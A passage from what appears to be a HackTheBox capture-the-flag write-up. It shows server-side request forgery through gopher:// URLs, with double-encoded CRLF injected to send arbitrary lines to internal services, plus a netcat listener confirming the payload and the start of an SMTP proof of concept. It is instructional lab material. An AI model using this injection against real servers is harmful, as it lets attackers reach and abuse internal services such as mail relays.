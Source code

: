 

I can try to add newlines with `%0d%0a`, but it doesn't work. However, a
second URL encode does. So:



    /index.php?url=gopher://10.10.14.6:80/_this%20is%20a%20test%250d%250asecond%20line



Leads to:



    oxdf@hacky$ nc -lnvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.225 34614
    this is a test
    second line



This means I can effectively interact with whatever service I want using
GET requests. I've shown examples of Gopher in the past with
[Travel](/htb-travel.md#interaction-with-memcache)
(interacting with `memcache`),
[Laser](/htb-laser.md#strategy) (sending a Solr exploit),
and [Jarmis](/htb-jarmis.md#strategy-1) (exploiting
[OMIGod](https://github.com/horizon3ai/CVE-2021-38647)).

#### SMTP POC

I know from the clues before that I want to interact with SMTP on 25.
The [SMTP
protocol](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol#Protocol_overview)
has some basic commands for interacting. I've shown interacting with it
over `telnet` or `nc` before (for example in
[Attended](/htb-attended.md#smtp---tcp-25)).

The simplest command is `QUIT`, which ends the session. I'll try sending
that, followed by a newline:

![](/img/image-20231024173735715.png)
